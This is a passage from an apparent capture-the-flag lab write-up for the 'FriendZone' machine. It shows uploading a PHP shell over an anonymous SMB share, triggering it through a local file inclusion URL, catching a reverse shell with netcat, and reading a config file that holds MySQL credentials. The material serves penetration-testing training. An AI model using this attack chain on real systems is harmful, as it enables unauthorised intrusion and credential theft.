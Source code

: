 
```
└─$ smbclient //10.10.10.123/Development -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Sep  6 20:04:46 2024
  ..                                  D        0  Tue Sep 13 15:56:24 2022

                3545824 blocks of size 1024. 1622648 blocks available
smb: \> put shell.php
putting file shell.php as \shell.php (1.3 kb/s) (average 1.3 kb/s)
smb: \> ls
  .                                   D        0  Sat Sep  7 09:20:13 2024
  ..                                  D        0  Tue Sep 13 15:56:24 2022
  shell.php                           A       71  Sat Sep  7 09:20:13 2024

                3545824 blocks of size 1024. 1622644 blocks available
smb: \> exit

```

and visit 

```
https://administrator1.friendzone.red/dashboard.php?image_id=b.jpg&pagename=/etc/Development/shell
```




## Shell as www-data

```
└─$ nc -lvp 443
listening on [any] 443 ...
connect to [10.10.14.28] from friendzone.red [10.10.10.123] 51634
bash: cannot set terminal process group (877): Inappropriate ioctl for device
bash: no job control in this shell
www-data@FriendZone:/var/www/admin$ 
```

```
www-data@FriendZone:/var/www/admin$ ls /home
friend
```

```
www-data@FriendZone:/var/www$ cat mysql_data.conf 
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```
